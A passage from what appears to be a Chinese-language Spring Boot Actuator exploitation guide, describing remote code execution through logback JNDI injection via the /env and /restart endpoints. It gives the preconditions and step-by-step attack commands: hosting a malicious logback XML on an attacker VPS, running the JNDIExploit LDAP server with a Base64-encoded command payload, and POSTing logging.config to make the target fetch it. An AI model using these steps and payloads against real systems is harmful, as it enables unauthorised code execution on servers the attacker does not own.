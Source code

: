 

### 0x09：restart logging.config logback JNDI RCE

#### 利用条件：

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/restart` 接口重启应用
- 普通 JNDI 注入受目标 JDK 版本影响，jdk < 6u201/7u191/8u182/11.0.1(LDAP)，但相关环境可绕过
- ⚠️ 目标可以请求攻击者的 HTTP 服务器（请求可出外网），否则 restart 会导致程序异常退出
- ⚠️ HTTP 服务器如果返回含有畸形 xml 语法内容的文件，会导致程序异常退出
- ⚠️ JNDI 服务返回的 object 需要实现 `javax.naming.spi.ObjectFactory` 接口，否则会导致程序异常退出



#### 利用方法：

##### 步骤一：托管 xml 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```bash
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```



在根目录放置以 `xml` 结尾的  `example.xml` 文件，实际内容要根据步骤二中使用的 JNDI 服务来确定：

```xml
<configuration>
  <insertFromJNDI env-entry-name="ldap://your-vps-ip:1389/TomcatBypass/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9y" as="appName" />
</configuration>
```



##### 步骤二：托管恶意 ldap 服务及代码

参考[文章](https://landgrey.me/blog/21/)，修改 [JNDIExploit](https://github.com/feihong-cs/JNDIExploit) 并启动（也可以使用其他方法）：

```bash
java -jar JNDIExploit-1.0-SNAPSHOT.jar -i your-vps-ip
```



##### 步骤三：设置 logging.config 属性

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

logging.config=http://your-vps-ip/example.xml
```
